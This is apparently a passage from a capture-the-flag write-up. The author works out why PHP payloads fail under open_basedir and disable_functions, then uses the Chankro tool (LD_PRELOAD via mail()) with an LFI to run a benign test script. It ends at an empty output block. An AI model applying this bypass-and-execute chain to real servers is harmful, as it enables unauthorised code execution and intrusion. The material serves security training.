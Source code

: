 Then I  can get at least one of the reasons why my payload fails, when I change the directory to `/var/tmp/test`, then the write test file works, and after some time, I find out the `open_basedir` in `phpinfo()`, and it only has the directories `/var` and `/etc`, And that is why I can not write to `/tmp`. When I try the `mail` payload with the `/var/tmp` directory, then it does not work, and I think it is because the mail function use `exec`, and that function is also blocked, but I think that I am on the right path. When I search in DuckDuckgo `bypass PHP disable_functions`
Then I find a [bypassing php disable functions with chankro from 0xdf](https://0xdf.gitlab.io/2019/08/02/bypassing-php-disable_functions-with-chankro.html):

![evidence](./static/10-0xdf-chankro.png)

And it mentions a tool to bypass `disable_functions` called `Chankro`. When I read how it works:
```
PHP in Linux calls a binary (sendmail) when the mail() function is
executed. If we have putenv() allowed, we can set the environment
variable "LD_PRELOAD", so we can preload an arbitrary shared object.
Our shared object will execute our custom payload(a binary or a bash
script) without the PHP restrictions, so we can have a reverse shell.
```
Then it looks promising. When I clone the [Chankro repository](https://github.com/TarlogicSecurity/Chankro):
```shell
$ git clone https://github.com/TarlogicSecurity/Chankro.git
```
And I write the file `test.sh` with:
```shell
#!/bin/sh
echo 'it works' > /var/tmp/res.txt
```
And inside the `Chankro` directory, I run:
```shell
$ python2 chankro.py --arch 64 --input test.sh --output chan.php \
> --path /var/tmp
```
Then it generates a PHP file called `chan.php`. When I send the `chan.php` file:
```shell
$ ./sendemail.sh --file chan.php
```
And I use the `LFI`, then I get a long output:
```shell
```